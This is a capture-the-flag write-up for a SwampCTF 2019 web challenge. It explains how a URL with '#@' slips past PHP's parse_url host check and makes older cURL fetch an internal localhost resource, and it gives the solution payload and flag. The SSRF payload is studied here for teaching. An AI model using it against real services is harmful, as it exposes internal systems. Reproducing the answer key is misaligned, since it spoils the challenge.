 # [SwampCTF 2019 Web] Brokerboard

## Flavor Text

It's the year 1997 and the Internet is just heating up! :fire:

In order to get ahead of the curve, SIT Industries® has introduced it's first Internet product: The Link Saver™. SIT Industries® has been _very_ secretive about this product - even going so far to hire Kernel Sanders® to test the security!

However, The Kernel discovered that The Link Saver had a little bit of an SSRF problem that allowed any user to fetch the code for The Link Saver™ from `https://localhost/key` and host it themselves :grimacing:. Fortunately, with a lil' `parse_url` magic, SIT Industries® PHP wizards have patched this finding from Kernel Sanders® and are keeping the code behind this wonderful site secure!

... or have they? :wink:

* Flag: flag{y0u_cANn0t_TRU5t_php}
* Expected difficulty: medium

## Description

**Note**: This is kind of a bitch; there's no easy way to get Docker to work with an older version of cURL yet a newer version of PHP. I'm gonna try to get this working eventually but, for now, I've just replicated the vulnerability with code. It sucks but it demonstrates the vulnerability well enough. :/

Inspiration from this challenge is from [A New Era of SSRF - Exploiting URL Parser in
Trending Programming Languages](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf). :)

This challenge is a PHP trick that requires PHP7+ with an older version of cURL; with PHP7, `parse_url` treats certain URLs differently than older versions of cURL. Most PHP apps will prevent SSRF by running `parse_url` on a URL and checking to see whether the `host` is internal or not (i.e. - "localhost", "127.0.0.1", "internal.company.net"). However, there's a mismatch between `parse_url` and older versions of cURL that can be exploited to send internal requests.

To explain, let's look at a typical URL in parse URL. Suppose you have a URL like "https://example.com". Let's run `parse_url` on this:

```php
php > var_dump(parse_url('https://example.com'));
array(2) {
  ["scheme"]=>
  string(5) "https"
  ["host"]=>
  string(15) "example.com"
}
```

We see that we have both a `scheme` of "https" and a `host` of "andrewjkerr.com". If we were checking the host against a list of internal URLs, we're good 'cause "andrewjkerr.com" is not one of them. Passing this URL to cURL will do the following:

```bash
andrewjkerr@kiwi swctf_web4/src (master) » curl -s https://example.com | head -4
<!doctype html>
<html>
<head>
    <title>Example Domain</title>
```

Looks good and we're happy with this!

However, let's take a look at a URL like "https://user:pass@example.com":

```php
php > var_dump(parse_url('https://user:pass@example.com'));
array(4) {
  ["scheme"]=>
  string(5) "https"
  ["host"]=>
  string(15) "example.com"
  ["user"]=>
  string(4) "user"
  ["pass"]=>
  string(4) "pass"
}
```

We see that we now have a `user` and a `pass` in the URL. The `host` is still "andrewjkerr.com" and passes our 'is not internal' check. Passing this URL to cURL will do the following:

```bash
andrewjkerr@kiwi swctf_web4/src (master *) » curl -s https://user:pass@example.com | head -4
<!doctype html>
<html>
<head>
    <title>Example Domain</title>
```

Still fetches "example.com" so we're happy!

Now, let's look at _this_ particular URL: "https://example.com#@https://localhost/key":

```php
php > var_dump(parse_url('https://example.com#@https://localhost/key'));
array(3) {
  ["scheme"]=>
  string(5) "https"
  ["host"]=>
  string(15) "example.com"
  ["fragment"]=>
  string(22) "@https://localhost/key"
}
```

Everything _seems_ to check out; the `host` is still "example.com" and would still pass our 'is not internal' check. But, what happens if we give this URL to cURL (using the cURL from PHP5.4)?

```php
<?php
    function get_data($url)
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 1); // Timeout after one second.
        $content = curl_exec($ch);
        curl_close($ch);
        return $content;
    }

    var_dump(get_data("https://example.com#@localhost/key"));

    // Returns content from localhost/key
?>
```

Kinda nifty, right?

## Challenge Solution

The solution to this one is pretty easy if you know about the issue. You need to use the payload from above (`https://www.example.com#@https://localhost/key`) to get the key. :)

### Running the Challenge

Do the following:

```bash
cd src
docker build -t swctf_web4 .
docker run -p 80:80 -d swctf_web4:latest
```

Hit up 127.0.0.1 and you'll see the page!
